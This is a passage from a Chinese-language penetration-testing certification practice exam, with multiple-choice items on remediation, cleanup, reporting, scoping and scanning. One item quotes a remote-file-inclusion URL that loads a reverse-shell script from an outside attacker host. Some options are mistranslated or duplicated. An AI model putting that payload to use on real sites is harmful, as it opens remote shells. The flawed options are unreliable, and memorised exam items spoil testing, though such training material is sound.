4. `iptables`

### 97. 你刚刚为一个客户完成了一次渗透测试。在你的发现中，你报告说在一个 Linux 文件服务器上发现了几个没有分配密码的用户账户。在最终报告中，你建议客户分析系统并为所有用户账户分配密码。他们应该检查服务器上的哪个文件来完成此目标？

1. `/etc/passwd`
2. `/etc/shadow`
3. `/etc/group`
4. `/etc/gshadow`

### 98. 你刚刚为一个使用大量临时工和承包商的客户完成了一次渗透测试。在你的发现中，你报告说临时和合同用户账户在工作完成后经常没有被停用或删除，因为他们经常在几个月后又回来负责新项目。鉴于客户使用 Linux 桌面和服务器，你应该建议他们使用以下哪种 Linux 命令来手动锁定临时或合同用户账户，直到工作人员返回参加新项目？

1. `lockusr`
2. `chmod`
3. `chage`
4. `passwd`

### 99. 你刚刚为一个客户完成了一次渗透测试。在你的发现中，你报告说一个 Linux 数据库服务器显示出过去曾被入侵的证据。攻击者试图通过手动修改本地日志文件来掩盖踪迹，但漏掉了一个揭示入侵的关键条目。你应该建议客户做什么？

1. 将日志文件设为只读。
2. 仅授予 `root` 用户对日志文件的读写权限。
3. 重新配置系统将日志记录发送到专用的日志服务器。
4. 将日志文件设为隐藏文件。

### 100. 你刚刚为一个拥有许多远程站点的客户完成了一次渗透测试。远程站点的员工通常使用 `FTP` 客户端在他们的站点与总部服务器之间来回传输文件。在测试期间，你能够嗅探这些 `FTP` 会话并捕获敏感信息。在最终报告中，你应该建议客户做什么来修复此问题？

1. 使用 `FTPS` 进行文件传输。
2. 禁止站点之间的文件传输。
3. 使用 `rcp` 命令进行文件传输。
4. 使用 U 盘和快递服务进行站点之间的文件传输。

### 101. 你刚刚为一个客户完成了一次渗透测试。在测试期间，你发现一名 Linux 系统管理员正在使用 `Telnet` 远程访问 Linux 服务器。在最终报告中，你应该建议客户做什么来修复此问题？

1. 禁止远程服务器访问。
2. 使用 `SFTP` 远程访问服务器。
3. 使用 `rsh` 远程访问服务器。
4. 使用 `SSH` 远程访问服务器。

### 102. 你刚刚为一个客户完成了一次渗透测试。在测试期间，你发现一名 Linux 系统管理员正在使用 `rcp` 在 Linux 服务器之间拷贝文件。在最终报告中，你应该建议客户做什么来修复此问题？

1. 使用 `scp` 命令进行文件传输。
2. 禁止服务器之间进行文件传输。
3. 使用 `rsh` 命令进行文件传输。
4. 使用 `ftp` 命令进行文件传输。

### 103. 你刚刚为一个客户完成了一次灰盒渗透测试。在测试期间，你能够使用默认的管理员用户名和密码访问组织的无线网络控制器设备。在最终报告中，你应该建议客户做什么来修复此问题？

1. 通过使用 `SSH` 进行远程连接，以消除明文密码的传输。
2. 更改控制器上默认的管理员用户名和密码。
3. 在所有访问点上使用定向天线。
4. 在无线网络上实施 `MAC` 地址过滤。

### 104. 你刚刚为一个客户完成了一次黑盒渗透测试。该组织的无线网络使用预共享密钥。在测试期间，你能够使用运行 `Aircrack-ng` 的笔记本电脑从停车场访问该组织的无线网络。在最终报告中，你应该建议客户做什么来修复此问题？（选择两项）

1. 实施 `MAC` 地址过滤。
2. 实施 `802.1x` 身份验证。
3. 升级到支持现代加密方法的更新 Wi-Fi 设备。
4. 更改访问点上默认的管理员用户名和密码。
5. 重新配置 Wi-Fi 设备以使用 `WPA` 加密。

### 105. 你刚刚为一个客户完成了一次黑盒渗透测试。在测试期间，你能够使用运行 `Aircrack-ng` 的笔记本电脑从停车场访问该组织的无线网络。在最终报告中，你应该建议客户做什么来修复此问题？（选择两项）

1. 在所有访问点上使用定向天线。
2. 重新配置 Wi-Fi 设备以使用 `WEP` 加密。
3. 升级到支持现代加密方法的更新 Wi-Fi 设备。
4. 禁用无线网络的 `DHCP`。

### 106. 你刚刚为一个客户完成了一次渗透测试。在测试期间，你通过伪装成 IT 供应商的技术人员进入了机房。你能够将笔记本电脑插入组织 `Cisco` 路由器的串口连接器并访问其配置。在最终报告中，你应该建议客户做什么来修复此问题？（选择两项）

1. 在有线网络上禁用 `DHCP`。
2. 在路由器上运行 `enable secret` 命令。
3. 实施审查供应商代表的程序。
4. 在路由器上实施 `MAC` 地址过滤。

### 107. 在为客户进行渗透测试时，你希望确保测试后的清理工作顺利完成。你应该做什么来实现这一目标？

1. 在进行测试时仔细记录你所做的一切。
2. 在关键系统中创建后门以便以后访问。
3. 为所有系统和设备创建镜像，以便恢复到测试前的状态。
4. 擦除由你的漏洞创建的任何日志条目。

### 108. 你刚刚为一个客户完成了一次渗透测试。现在正在进行测试后的清理。你应该做什么？（选择两项）

1. 移除测试期间创建的任何会话。
2. 向客户隐藏你在测试期间所的一切。
3. 记录你在清理期间所做的一切。
4. 隐藏你为了清理工作所做的一切。

### 109. 你刚刚为一个客户完成了一次渗透测试。现在正在进行测试后的清理。你应该做什么？

1. 要求客户签署协议，不泄露你在测试期间使用的技术。
2. 移除测试期间使用的任何测试者创建的凭据。


3. 对内部管理员在测试期间所犯的错误进行批判性分析。
4. 向客户隐藏你在测试期间进行的所有操作。

110. 你在渗透测试完成后正在执行测试后清理工作。你应该做什么？
1. 移除在测试期间安装的任何工具或实用程序。
2. 将所有管理员凭据重置为它们的默认值。
3. 将所有防火墙重置为默认配置。
4. 使用默认设置重新安装所有网络服务。

111. 渗透测试完成后，你与客户会面。在会议期间，你向客户提供了与你在测试期间发现的问题相关的详细证据。这一过程称为什么什么？
1. 发现结果证明 (Attestation of findings)
2. 经验教训总结 (Lessons learned)
3. 客户验收 (Client acceptance)
4. 数据归一化 (Normalization of data)

112. 渗透测试完成后，你与客户会面。在会议结束时，你要求客户书面同意你已根据最初与客户签署的合同履行了职责。这一过程称为什么什么？
1. 发现结果证明 (Attestation of findings)
2. 经验教训总结 (Lessons learned)
3. 客户验收 (Client acceptance)
4. 后续行动 (Follow-up actions)

113. 在完成渗透测试几个月后，你的客户打电话来要求你回来重新测试他们的网络，以验证你最初发现的问题已妥善修复。这一过程称为什么什么？
1. 发现结果证明 (Attestation of findings)
2. 经验教训总结 (Lessons learned)
3. 后续行动 (Follow-up actions)
4. 数据归一化 (Normalization of data)

114. 在为客户完成渗透测试后，你与渗透测试团队会面以回顾经验教训。在会议中你应该做什么？（选择两个。）
1. 记录测试期间有效的技术漏洞利用方法。
2. 讨论客户所在地附近的最佳吃饭地点。
3. 识别测试期间不有效的漏洞利用方法。
4. 审查团队对即将到来的假期庆祝计划。

115. 安全分析师收到了一份详细的渗透测试报告。渗透是针对目标组织的 DMZ 环境进行的。报告中有一个发现，通用漏洞评分系统 (CVSS) 的基分为 1.0。要利用此漏洞，需要多大的难度级别？
1. 极其困难，因为边界系统通常位于防火墙之后。
2. 相当困难，因为利用该漏洞需要强大的处理能力。
3. 轻而易举，因为利用这些发现所需的精力很小。
4. 不可能，因为外部主机已经过加固以防止攻击。

116. 在渗透测试过程中，测试人员需要与客户进行通信。以下哪些情况会导致这种通信发生？（选择两个。）
1. 在尝试测试后，系统变得不可用。
2. 系统显示出之前存在未经授权访问的迹象。
3. 系统显示缺乏完全的加固。
4. 测试人员在系统上发现了可单独识别的数据。
5. 测试人员在范围之外的系统上发现了某些内容。

117. 渗透测试人员为客户执行了安全评估。报告列出了总共九个漏洞，其中四个被确定为严重漏洞（critical）。客户没有预算立即修复所有漏洞。考虑到这些，测试人员应该建议客户采取什么最佳方案？
1. 对严重漏洞应用易的补偿控制措施以最小化降低风险，然后重新调整修复优先级。
2. 识别可以快速修复的漏洞并优先处理它们。
3. 优先实施影响最小的严重漏洞修复，然后处理其他严重漏洞。
4. 优先修复最严重的漏洞，即使这意味着修复其他漏洞可能需要更长时间。

118. 渗透测试人员为客户执行了安全评估。观察到公共 Web 服务器上有多个高位端口正在监听。客户表示他们仅在应用程序中使用 `443` 端口。渗透测试人员应该向客户建议什么？
1. 禁用不需要的服务。
2. 将 `443` 端口过滤到特定的 IP 地址。
3. 实施 Web 应用程序防火墙。
4. 将应用程序迁移到另一个端口。

119. 如果渗透测试人员能够在文本框中输入 SQL 注入命令并获得数据库中存储信息的访问权限，给客户的缓解该漏洞的最佳建议是什么？
1. 实现输入归一化。
2. 安装基于主机的入侵检测系统。
3. 执行系统加固。
4. 随机化登录使用的凭据。

120. 渗透测试人员正在进行测试，在破解单个工作站后，测试人员能够以极少的障碍在整个域内横向移动。给客户的报告中应该推荐哪些迁移策略？（选择三个。）
1. 应用额外的网络访问控制。
2. 对于所有登录，要求多因素身份验证。
3. 对于每台机器，随机化本地管理员凭据。
4. 对于本地管理员，禁用远程登录。
5. 增加最小密码复杂度要求。
6. 将每个主机放入自己的虚拟本地局域网 (VLAN)。
7. 在每个工作站上启用全磁盘加密。

121. 渗透测试人员正在编写一份报告，概述运营整体风险水平。测试人员应该在报告的哪个部分包含此信息？
1. 附录 (Appendixes)
2. 执行摘要 (Executive summary)
3. 正文 (Main body)
4. 技术摘要 (Technical summary)

122. 在客户的核心服务器进行渗透测试期间，测试人员发现了一个严重漏洞。测试人员下一步应该做什么？
1. 完成测试，完成所有发现，然后将其提交给客户。
2. 立即向客户报告发现的细节。
3. 在目标机器上禁用受影响服务的网络端口。
4. 将目标机器离线以便无法被利用。

123. 安全分析师正在监控 Web 防火墙 (WAF) 日志，发现针对以下 URL 的成功攻击：`https://sample.com/index.php?Phone=http://iattackyou.com/stuffhappens/revshell.php`。应该采取哪些修复措施来防止此类攻击再次发生？
1. 阻止 URL 重定向。
2. 对参数进行双编码。
3. 从应用程序停止外部调用。
4. 实现黑名单。

124. 渗透测试人员通过钓鱼攻击从 IT 部门成员处获取了初始 VPN 用户域凭据。然后通过 VPN 获取了哈希值并使用字典攻击轻松破解。测试人员应该向客户推荐哪些修复措施？（选择三个。）
1. 建议增加密码复杂度要求。
2. 建议对远程访问实施双因子身份验证。
3. 建议安装入侵防御系统。
4. 建议安装安全信息事件监控解决方案。
5. 建议防止 IT 部门成员以管理员身份进行交互式登录。


6. 建议要求所有员工参加安全意识培训。

7. 建议升级 `VPN` 解决方案中使用的密码套件。

125. 在完成对面向互联网的应用程序的测试后，渗透测试人员注意到该应用程序仅使用基本身份验证。测试人员向客户推荐的最佳修复策略是什么？

1. 启用 `HTTP Strict Transport Security` (`HSTS`)
2. 启用安全的 cookie 标记（flag）
3. 加密通信通道
4. 过滤无效的用户输入

126. 在完成客户的测试后，测试人员正在对发现和建议进行优先级排序，以编写执行摘要。以下考虑因素中哪一个对客户最有益？

1. 补丁和其他修复措施的可用性
2. 漏洞已发现漏洞的难度程度
3. 客户组织的风险容忍度
4. 完成每一步所需的时间

127. 组织 IT 部门的一名级技术人员对公司的 Web 应用程序进行了渗透测试。测试期间，该技术人员发现应用程序可以泄露包含所有用户帐户和密码信息的 `SQL` 表。技术人员应如何通知管理层？

1. 技术人员应使用这些信息连接到 `SQL` 服务器，并更改几个非关键帐户的密码，以向管理层演示概念证明（PoC）。
2. 技术人员应通过包含建议和截图的执行摘要来记录发现，并提供给管理层。
3. 技术人员应将发现通知开发团队，并建议对 Web 应用程序的 `SQL` 查询字符串强制输入验证。
4. 技术人员应要求管理层创建需求建议书 (`RFP`)，以开始与专业的渗透测试公司进行正式合作。

128. 你是一名安全分析师，正在审查最近对内网服务进行的内部漏洞扫描结果。扫描报告显示存在一个严重漏洞。报告内容如下：

标题：Web 服务器远程命令执行漏洞
评分：严重 (`CVSS` 10.0)
威胁建模者：Web 服务器的任何远程用户
置信度：确定
建议：应用厂商补丁

你首先应该做什么？

1. 应用风险评分并说明其对组织的影响。
2. 利用服务器以确定扫描是否为误报。
3. 告知高层管理层该漏洞。
4. 组织关键的周期外补丁。

129. 你是一名渗透测试人员，在完成渗透测试后的清理工作时，发现客户没有必要的数据擦除工具。随后将所需的工具分发给了需要它们的技术人员。你应该在哪个阶段重新考虑这个问题？

1. 在经验训阶段（lessons learned）
2. 在缓解阶段（mitigation）
3. 在准备阶段（preparation）
4. 在报告阶段（reporting）

130. 你正在与客户讨论多因素身份认证。客户要求你提供一个多因素身份认证的示例。你会告诉客户什么符合多因素身份认证的要求？

1. 使用生物识别指纹和语音识别
2. 使用智能卡和 `PINs`
3. 使用视网扫描和语音识别
4. 使用用户名、`PINs` 和员工 ID

131. 你是一名渗透测试人员，受客户委托测试几台 Web 服务器的安全性。通过利用与 `DNS`、`FTP`、`IMAP`、`POP`、`SMTP` 和 `Telnet` 使用相关的漏洞，你获得了若干服务器的 `root/administrator` 权限。关于如何更好地保护 Web 服务器，你应该向客户建议什么？

1. 他们应该禁用任何不必要的服务。
2. 他们应该增加应用程序事件日志。
3. 他们应该使用蜜罐容器（honeypot）。
4. 他们应该使用传输层安全协议 (`TLS`)。

132. 你进行了渗透测试并正在审查结果。你注意到组织在所有系统中使用了相同的本地管理员密码。你可以使用什么工具来帮助解决这个问题？

1. 本地管理员密码解决方案 (`LAPS`)
2. 限制管理员密码辅助 (`LAPA`)
3. `Nessus`
4. `Metasploit`

133. 你是一名安全分析师，刚刚完成了渗透测试。在编写执行摘要时，哪些项目是不合适的？

1. 对所有发现和漏洞的描述。
2. 对所有发现的漏洞进行风险声明。
3. 应该用通俗易懂的语言编写。
4. 包含有关测试的所有技术细节。

134. 你是一名渗透测试人员，正在进行结束后清理。在结束后清理阶段执行哪些活动？（选择三项）

1. 修复所有漏洞
2. 移除所有使用的工具
3. 移除 shell（后）
4. 移除测试人员创建的凭据

135. 你和同事正在讨论一个场景：某组织实施电子邮件内容过滤，以阻止看似来自内部源但未经适当身份验证的入站消息。该组织可能过滤掉任何包含高风险关键词或来自已知恶意源的消息。这属于哪种常见的修复活动类别？

1. 测量（Measurement）
2. 人员（People）
3. 流程（Process）
4. 技术（Technology）

136. 你和同事正在讨论不同的多因素身份认证类别。一个例子是员工使用带有令牌的钥匙扣，该令牌生成登录时必须使用的一次性密码。这属于哪种多因素身份认证类别？

1. 你拥有的（Something you are）
2. 你拥有的（Something you have）
3. 你知道的（Something you know）
4. 你需要的（Something you need）

# 第 6 章

# 练习考试 1

1. 你是一名渗透测试人员，你和同事正在讨论为什么在进行渗透测试时保持任何发现的机密性很重要。为什么要保持发现的机密？

1. 它们可以帮助攻击者入侵网络。
2. 它们可能包含公司的知识产权。
3. 它们是包含特权信息的法律文件。
4. 如果发现结果公开，可能会导致消费者不满意。

2. 你是一名渗透测试人员，正在为新客户即将进行的测试制定工作规则 (`ROE`)。你需要在 `ROE` 中包含哪些项目？（选择两项）

1. 测试将进行的时间表
2. 对任何法律的审查，特别是规范客户的法律
3. 你之前测试过的相似公司列表
4. 你的客户的竞争对手列表
5. 客户网络的详细地图

3. 你是一名渗透测试人员，正在为新客户即将进行的测试制定工作规则 (`ROE`)。客户要求进行白盒测试。你已经告知客户以下内容：

* 客户在测试期间不能使用屏蔽（shunning）或黑名单。
* 客户必须向你提供网络内部权限。
* 客户必须向你提供详细的网络地图。
* 客户必须向你提供身份验证凭据。
* 测试期间不允许使用软件即服务 (`SaaS`) 服务商提供的应用程序。


### 在制定 ROE（执行规则）时，你在这种场景下做错了什么？

1. 应该允许客户使用任何必要手段进行自卫。
2. 拥有内部网的详细信息会破坏测试结果。
3. 所有网络资源都应该接受测试，包括任何云端资源。
4. 无。`ROE` 的定义是正确的。

### 4. 你是一名渗透测试员，正在为一个新客户制定你将要进行的渗透测试条款。以下哪种方法是获得进行测试的法律许可的适当方法？

1. 发送邮件向一名高级管理人员请求开始测试的许可。
2. 拨打电话向一名 IT 工作人员请求开始测试的许可。
3. 要求一名 IT 工作人员签署文件，授予你开始测试的许可。
4. 要求一名高级管理人员签署文件，授予你开始测试的许可。

### 5. 你是一名渗透测试员，正在为一个新客户即将到开展的测试制定执行规则（`ROE`）。客户要求进行白盒评估。这将是一次不涉及第三方的内部测试。在这一测试场景中，以下哪些资源会被认为在测试范围内？（选择两个）

1. Active Directory 用户
2. Google Docs
3. Microsoft Azure Web 服务器
4. Microsoft Office 365 云应用程序
5. 组策略中定义的密码策略

### 6. 你是一名渗透测试员，正在为一个新客户准备即将开展的测试。客户要求进行白盒评估。测试的目标是看你是否能访问存储在内部数据库服务器上的机密数据。你已向客户索要架构图。客户应该向你提供哪些信息？（选择两个）

1. 设施地图
2. 网络拓扑
3. 简单对象访问协议（`SOAP`）文档
4. `Swagger` 文

### 7. 你和同事正在讨论消息协议。一种协议定义了 Web 应用之间如何交换结构化信息，并由 `WSDL` 文件创建。讨论的是哪种消息协议？

1. 简单对象访问协议（`SOAP`）
2. `Swagger`
3. Web 应用描述语言（`WADL`）
4. XML 架构定义（`XSD`）

### 8. 你是一名渗透测试员，正准备为客户进行应用程序接口（`API`）测试。在准备此类测试时，以下哪种工具最为理想？

1. `Nikto`
2. `Swagger`
3. Web 归包（`WAR`）
4. Web 应用攻击与审计框架（`W3AF`）

### 9. 你是一名渗透测试员，正在为一个新客户规划外部黑盒渗透测试范围。你创建了一个极具攻击性的漏洞扫描器。在之前使用该扫描器的测试中，该扫描器导致客户的网站宕机了超过 40 分钟。但通过这次扫描，客户发现了几个漏洞并纠正了这些问题。在为当前客户运行此扫描器之前，你应该先做什么？

1. 在即将到来的评估中使用该漏洞扫描器。
2. 在即将到来的评估中使用该漏洞扫描器。
3. 通过进行影响分析确定新客户对影响的容忍度。
4. 修改漏洞扫描器以降低其攻击性。

### 10. 你是一名渗透测试员，正与同事讨论 CIA 三要素模型。你们正在讨论 `confidentiality`（机密性）一词的含义。在 CIA 三要素模型的背景下，哪种陈述最能描述 `confidentiality` 的含义？

1. 防止对信息或系统的未经授权访问
2. 防止对信息或系统进行未经授权的修改
3. 确保对信息和系统的合法使用是可能的
4. 防止对信息和系统的合法访问

### 11. 你是一名渗透测试员，正为一个新客户策划一项任务。在开始测试之前，以下哪些内容是最重要的？（选择两个）

1. 架构图
2. 公司政策
3. 目标/意图
4. 报告的存储时间
5. 对影响的容忍度

### 12. 你是一名渗透测试员，目前处于测试过程中，客户要求你添加更多地址。以下哪项定义了你可以遵循的目标列表？

1. 终端用户许可协议
2. 主服务协议（`MSA`）
3. 执行规则（`ROE`）
4. 工作说明书（`SOW`）

### 13. 你是一名渗透测试员，正准备为新客户进行评估。以下哪种文件精确定义了测试期间将执行的内容？

1. 主服务协议（`MSA`）
2. 保密协议（`NDA`）
3. 测试员给客户的详细发票
4. 工作说明书（`SOW`）

### 14. 你是一名渗透测试员，正准备为新客户运行测试。以下哪些陈述源自新客户的公司政策？

1. 公司系统必须使用 `MD5` 哈希算法存储密码。
2. 员工密码必须至少包含八个字符，并包含一个字母数字。
3. 可以联系帮助台以重置密码的电话。
4. 为了访问公司资产，员工必须使用强密码。

### 15. 你是一名渗透测试员，被要求测试一个使用关联主机与其公钥身份验证方法的组织。该组织正在使用哪种身份验证？

1. 证书固定
2. 自签名服务器验证
3. `SSL Handshake`
4. 绕过 `X.509`

### 16. 你是一名渗透测试员，受新客户聘佣进行渗透测试。客户希望你测试他们的专利文档。测试的目标是绕过安全措施并未经授权地访问这些文档。你正在进行哪种类型的评估？

1. 基于合规性的评估
2. 基于目标的评估
3. 基于意图的评估
4. 红队评估

### 17. 你是一名渗透测试员，受客户要求装成一名最近离职的帮助台技术人员。哪项最描述这种威胁攻击者的能力？

1. 高级持续威胁（`APT`）
2. 黑客主义者
3. 组织犯罪
4. 脚本小子

### 18. 你是一名渗透测试员，听说一名攻击者对邻国的一个政府承包商发起了攻击。攻击的目标是通过承包商进入对立国家的政府网络基础设施。攻击者得到了其所属政府的支持。这种场景描述的是哪种类型的威胁攻击者？

1. 黑客主义者
2. 国家级力量
3. 组织犯罪
4. 脚本小子

### 19. 你是一名渗透测试员，被要求为新客户进行渗透测试。客户希望评估他们对于具有普通员工网络权限的恶意内部人员的脆弱性。你应该执行哪种测试？

1. 黑盒测试
2. 灰盒测试
3. 红盒测试
4. 白盒测试


## 20. 你是一名渗透测试员，受雇对一家新客户设施进行物理安全测试。你被允许使用任何你想要的方法尝试渗透他们的设施，只要不损坏他们的财产或伤害任何人即可。客户要求你进行的是哪种类型的评估？

1. 基于合规性的评估
2. 基于目标的评估
3. 合并前评估
4. 供应链评估

## 21. 你是一名渗透测试员，你正在与一家新客户合作，为即将进行的渗透测试确定范围及考量因素。你询问客户他们是否愿意接受渗透测试可能会导致其网络出现中断这一事实。客户表示他们理解了。在这种场景中，你和客户刚刚讨论了哪种流程？

1. 尽职调查 (Due diligence)
2. 风险接受 (Risk acceptance)
3. 安全异常 (Security exceptions)
4. 威胁建模 (Threat modeling)

## 22. 你是一名渗透测试员，被指派尝试渗透客户的设施。你注意到一扇被员工遗留的未锁侧门。你进入了设施。客户希望防止这种情况再次发生，于是拆掉了那扇门并砌了一堵墙。在这种场景中，客户采取了哪种风险响应？

1. 接受 (Acceptance)
2. 规避 (Avoidance)
3. 应急 (Contingency)
4. 利用 (Exploitation)

## 23. 你是一名渗透测试员，最近一位客户来找你，对近期大量公司被寻找贸易机密的远程攻击者入侵表示担忧。以下哪项最描述寻找贸易秘密的对手类型？

1. 高级持续威胁 (APT) 攻击者
2. 黑客主义团体 (Hacktivist groups)
3. 内部威胁 (Insider threats)
4. 脚本小子 (Script kiddies)

## 24. 你是一名渗透测试员，正在为一家新客户运行渗透测试。你正在使用运行在个人电脑上的渗透测试工具包对各种网络设备进行扫描。突然之间，网络中断了。可能发生了什么？

1. 你的扫描导致边界路由器崩溃。
2. 你的扫描导致网络骨干上的一个交换机崩溃。
3. 你的电脑的 IP 地址被列入白名单。
4. 你的电脑的 IP 地址被列入黑名单。

## 25. 你是一名渗透测试员，你正在与一家新客户讨论即将进行的渗透测试。客户要求你对他们的网络进行“水晶盒”（crystal box）测试。客户要求你执行的是哪种类型的渗透测试？

1. 黑盒测试
2. 基于目标的测试
3. 灰盒测试
4. 白盒测试

## 26. 你是一名渗透测试员，你计划对一家新客户使用黑盒渗透测试。使用这种策略，你将获得什么？

1. 特权凭据
2. 网络拓扑图
3. 源代码
4. 什么都没有，因为你必须自己进行发现

## 27. 你是一名渗透测试员，你计划为一家新客户进行渗透测试。你计划建立一次安全评估。以下哪项对评估的预算有重大影响？

1. 合规性要求
2. 进度安排
3. 范围确定 (Scoping)
4. 目标风险

## 28. 你是一名渗透测试员，正在进行一项专门针对单个 Web 应用程序的渗透测试。你发现该 Web 服务器还包含了一份指向目标位置其他服务器的密码列表。你通知了客户。客户随后要求你验证那些服务器。当你继续对其他服务器进行密码测试时，发生了什么？

1. 威胁狩猎 (Threat hunting)
2. 枢纽 (Pivoting)
3. 范围扩大 (Scope creep)
4. 目标扩展 (Target expansion)

## 29. 你和同事正在讨论威胁行为者。你们正在讨论一个攻击者攻击政府机构，因为他们对通过的一项新法律感到不满。讨论的是哪种威胁行为者？

1. 脚本小子 (Script kiddie)
2. 黑客主义者 (Hacktivist)
3. 有组织犯罪 (Organized crime)
4. 国家级 (Nation state)

## 30. 你是一名渗透测试员，被要求为客户执行渗透测试。你需要一份规定了你们机构之间整体条款的文档。由于你计划建立支持协议，该文件也将用于你们机构未来的工作。这份文档称为什么？

1. 非竞业协议 (Noncompete agreement)
2. 非披露协议 (NDA)
3. 主服务协议 (MSA)
4. 工作说明书 (SOW)

## 31. 你和同事正在讨论哪项法律要求医疗保健机构必须符合某些安全标准。该法律名称是什么？

1. 联邦信息处理标准 (FIPS) 第 140-2 版 (FIPS PUB 140-2)
2. 1999 年《格姆-莱奇-布莱法案》(GLBA)
3. 1996 年《健康保险流动性与责任法案》(HIPPA)
4. 2002 年《萨班斯-奥克斯法案》(SARBOX)

## 32. 你和同事正在讨论哪项法律监管金融机构如何处理客户的个人信息。该法律名称是什么？

1. 联邦信息处理标准 (FIPS) 第 140-2 版 (FIPS PUB 140-2)
2. 1999 年《格姆-莱奇-布莱法案》(GLBA)
3. 1996 年《健康保险流动性与责任法案》(HIPPA)
4. 2002 年《萨班斯-奥克斯法案》(SARBOX)

## 33. 你是一名渗透测试员，你正试图在不影响系统或其数据的情况下识别客户 Web 应用程序中的漏洞。以下哪项最描述这种漏洞类型？

1. 激进式扫描
2. 合规性扫描
3. 无凭据扫描
4. 被动扫描

## 34. 你是一名渗透测试员，正在对客户的网络进行渗透测试。你正在通过不主动扫描网络的方式收集信息。你正在收集哪种类型的信息？

1. 背景检查
2. 商业记录搜索
3. 情报收集
4. 开源情报 (OSINT)

## 35. 你和同事正在讨论开源情报 (OSINT) 收集工具。以下哪个工具不是 OSINT 收集工具？

1. 收集档案指纹识别 (FOCA)
2. Nessus
3. Nlookup
4. Whois

## 36. 你和同事正在讨论开源情报 (OSINT)，讨论倾向于讨论漏洞和其他安全缺陷。有许多机构正在汇总这些知识。其中一个机构处理广泛广泛的网络安全活动。它通过提供警报以及事件处理和规避指南，关注安全违规和拒绝服务 (DoS) 事件。讨论的是哪个机构？

1. 高级攻击模式枚举与分类 (CAPEC)
2. 计算机应急响应小组 (CERT)
3. 常见弱性枚举 (CWE)
4. 联邦标准与技术研究院 (NIST)

## 37. 你和同事正在讨论开源情报 (OSINT)，讨论倾向于讨论漏洞和其他安全缺陷。有许多机构正在汇总这些知识。其中一个机构使用列表作为资源，旨在识别和记录攻击及攻击模式。它允许用户根据机制搜索攻击，并使用各种属性和先决条件拆解每次攻击。讨论的是哪个机构？

1. 高级攻击模式枚举与分类 (CAPEC)
2. 计算机应急响应小组 (CERT)
3. 常见弱性枚举 (CWE)
4. 联邦标准与技术研究院 (NIST)


### 38. 你是一名渗透测试员，正在对一个大型机构进行黑盒渗透测试。你想探测客户 Web 服务器的 IP 地址。你想查看与该地址可能关联的信息，例如它使用了哪种加密套件。你应该使用哪种工具来完成此任务？

1. `Censys`
2. `Nslookup`
3. `Maltego`
4. `Shodan`

### 39. 你是一名渗透测试员，正在进行黑盒渗透测试的信息收集阶段。你想窃听客户设施发出的射电频率发射，并尝试从他们的无线网络中捕获数据。你正停在客户的停车场里。你可以在 Linux 笔记本电脑上使用哪种程序来破解客户在其无线网络上使用的加密？

1. `Aircrack-ng`
2. `nmap`
3. `tcpdump`
4. `Wireshark`

### 40. 你和一位同事正在讨论一个由美国国家标准与技术研究院（NIST）维护的开源研究资源。该资源提供了当前安全状况的摘要。这个政府存储库称什么？

1. 常见攻击模式枚举与分类 (CAPEC)
2. 计算机应急响应小组 (CERT)
3. 常见漏洞与暴露 (CVE)
4. 国家漏洞数据库 (NVD)

### 41. 你是一名渗透测试员，被要求为新客户执行黑盒渗透测试。评估的哪一个阶段可能耗时最长才能完成？

1. 攻击与利用阶段
2. 信息收集与漏洞识别阶段
3. 规划与范围界定阶段
4. 报告与结果沟通阶段

### 42. 你是一名渗透测试员，被要求为新客户执行黑盒渗透测试。你想找出客户域名的所有者。你可以使用哪种工具来查找这些信息？

1. `Nslookup`
2. `Maltego`
3. `Shodan`
4. `Whois`

### 43. 你是一名渗透测试员，被要求确定客户的服务器群是否符合公司的软件基准。你将进行远程扫描。你应该执行何种类型的扫描来验证合规性？

1. 凭据扫描 (credentialed scan)
2. 发现扫描 (discovery scan)
3. 全量扫描 (full scan)
4. 隐身扫描 (stealth scan)

### 44. 你是一名渗透测试员，正在配置你的漏洞管理解决方案，以对客户网络上的服务器进行凭据扫描。你应该被提供什么种类型的账户？

1. 域管理员账户
2. 本地管理员账户
3. 域访客账户
4. 只读账户

### 45. 你是一名渗透测试员，受客户委托对其 Web 应用程序进行代码审计。你将执行何种类型的分析？

1. 动态代码分析
2. 模糊测试 (Fuzzing)
3. 故障注入
4. 静态代码分析

### 46. 你是一名渗透测试员，拥有域控制器的完全访问权限。你想发现过去 30 天内未活动的任何用户账户。你应该使用哪种命令？

1. `dsrm -users "DN=client.com; OU=hq CN=users"`
2. `dsquery user -inactive 4`
3. `dsquery -o -rdn -limit 30`
4. `dsuser -name -account -limit 3`

### 47. 你是一名渗透测试员，正在与客户讨论测试委托协议的属性。以下哪一项对在客户高峰负荷期间对其生产系统的观察和测试影响最大？

1. 为客户使用的关键生产系统界定范围
2. 与客户建立白盒测试委托关系
3. 让客户管理团队对任何侵入性测试进行签署批准
4. 设定测试时间表以访问他们的系统

### 48. 你是一名渗透测试员，刚刚完成了对客户网络的简易合规性扫描。扫描结果显示，网络上存在部分资产。此信息与你在测试前收到的网络架构图上显示的不符。产生差异最可能的原因是什么？（选择两项）

1. 配置错误的 DHCP 服务器
2. 错误的凭据
3. 网络访问限制 (Limited network access)
4. 网络访问控制 (NAC)
5. 存储访问 (Storage access)

### 49. 你是一名渗透测试员，正在对客户的网络进行黑盒渗透测试。你正在收集漏洞扫描结果。何种类型的扫描将在你的测试范围内为你提供重要信息？

1. 合规性扫描
2. 发现扫描
3. 全量扫描
4. 隐身扫描

### 50. 你是一名渗透测试员，一直在扫描一个新客户的网络。你所使用的漏洞扫描器正在使用服务访问级别（service access level）来更好地评估组织内多个资产的漏洞。正在执行的是何种扫描？

1. 凭据扫描
2. 非侵入性扫描
3. 被动扫描

### 51. 你是一名渗透测试员，客户希望你扫描他们的系统。他们希望你尽力避免被检测到。你将执行何种类型的扫描？

1. 合规性扫描
2. 发现扫描
3. 全量扫描
4. 隐身扫描

### 52. 你是一名渗透测试员，正在作为新客户灰盒渗透测试的一部分进行侦察。你对客户的一台服务器运行漏洞扫描，发现端口 23 是开启的。这指向什么？

1. 该服务器是域名系统 (DNS) 服务器
2. 该服务器是安全外 (SSH) 服务器
3. 该服务器是 Telnet 服务器
4. 该服务器是文件传输协议 (FTP) 服务器

### 53. 你是一名渗透测试员，正在为新客户进行渗透扫描。在外部漏洞扫描期间，你发现了以下检测结果：

| 漏洞 | 端口 |
| :--- | :--- |
| 多个不支持版本的 Apache | 80, 443 |
| HTTPS 连接接受 SSLv3 | 443 |
| Apache 服务器启用了 Mod_rewrite | 80, 443 |
| 发现 Windows 服务器主机 | 21 |

根据这些结果，你应该如何优先考虑攻击策略？

1. 旧软件可能包含漏洞组件。
2. Web 服务器可能暴露敏感信息。
3. 使用了较弱的密码管理实践。
4. 弱协议可能被拦截。

